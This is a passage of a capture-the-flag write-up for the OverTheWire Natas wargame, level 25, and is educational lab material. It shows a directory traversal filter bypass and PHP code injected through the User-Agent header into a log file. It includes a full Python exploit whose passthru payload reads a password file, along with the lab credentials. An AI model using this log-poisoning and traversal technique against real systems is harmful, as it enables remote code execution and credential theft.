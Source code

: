 Bypassing the second one is as simple as `.../...//` which gets to `../` allowing directory traversal. The first one `$_SERVER['HTTP_USER_AGENT']` trusts user input :)

We craft a payload such that error occurs and log is written. Inside the `User-Agent` field, we embed php code:

```php
headers = {'User-Agent': '<?php global $__FOOTER; $__FOOTER=passthru("cat /etc/natas_webpass/natas26"); ?>'}
```

that sets the `$__FOOTER$` of the page to the password. The second `GET` tries to access `log` directly. That fails. Thus, we access it through directory traversal. The following file:

```s
$fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
```
reveals the name of the log. It uses our session id. Complete exploit:

```python
def exploit():
    sess = requests.Session()
    _payload = "en../"
    headers = {'User-Agent': '<?php global $__FOOTER; $__FOOTER=passthru("cat /etc/natas_webpass/natas26"); ?>'}
    auth_username = 'natas25'
    auth_password = 'GHF6X7YwACaYYssHVY05cFq83hRktl4c'
    response = sess.get('http://natas25.natas.labs.overthewire.org/?lang='+_payload, auth=HTTPBasicAuth(auth_username, auth_password), headers=headers)
    dissect_response(response)
    for cookie in sess.cookies:
        value = cookie.value


    _payload = "logs/natas25_" + value + ".log"
    response = requests.get('http://natas25.natas.labs.overthewire.org/'+_payload, auth=HTTPBasicAuth(auth_username, auth_password), headers=headers)
    dissect_response(response)

    _payload = ".../...//logs/natas25_" + value + ".log"
    response = sess.get('http://natas25.natas.labs.overthewire.org/?lang='+_payload, auth=HTTPBasicAuth(auth_username, auth_password), headers=headers)
    dissect_response(response)
```

Password: oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T

# Level 26

## PHP Object Injection

URL: http://natas26.natas.labs.overthewire.org

Consider the following php code:
